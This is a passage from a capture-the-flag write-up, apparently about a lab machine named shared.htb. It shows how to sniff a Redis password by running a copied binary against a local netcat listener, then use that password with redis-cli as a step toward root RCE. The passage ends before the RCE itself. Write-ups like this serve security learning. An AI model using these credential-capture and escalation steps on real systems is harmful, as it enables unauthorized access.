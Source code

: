 
#### Finding the Password

Since the Redis RESP protocol operates in plaintext, we might be able to capture the password. First, let's copy the file to the attacker machine.

```bash
# bryan@attacker
scp -i dan_smith_id_rsa "dan_smith@$rhost:/usr/local/bin/redis_connector_dev" .
chmod +x redis_connector_dev
```
{:.nolineno}

Running the file on the attacker machine, we get an error complaining that TCP port 6379 is closed on the loopback address. We can open that port by running `nc` in a separate tab.

```bash
# bryan@attacker
nc -lv 127.0.0.1 6379
```
{:.nolineno}

Now if we run `./redis_connector_dev`{:.filepath} we get some output to the listener.

```text
Connection received on localhost 35468
*2
$4
auth
$16
[REDACTED]
```
{:.nolineno}

The strings _auth_ and _\[REDACTED\]_ are passed. Given the circumstances, the second string seems like it may be the password so let's try using that with the `redis-cli` command back on the target machine.

```bash
# dan_smith@shared.htb (SSH)
redis-cli -a "$password" INFO server
```
{:.nolineno}

The `INFO server` command is successfully executed. While running some extra enumeration commands we find out that the redis store is pretty much empty.

```bash
# dan_smith@shared.htb (SSH)
redis-cli -a "$password" INFO keyspace
```
{:.nolineno}

After some research on redis, we come across [this page](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce) which presents different methods of achieving RCE on a redis server. This is useful for us because the user running the redis server is **root** meaning we will execute commands as root if RCE is possible.

#### Loading Modules
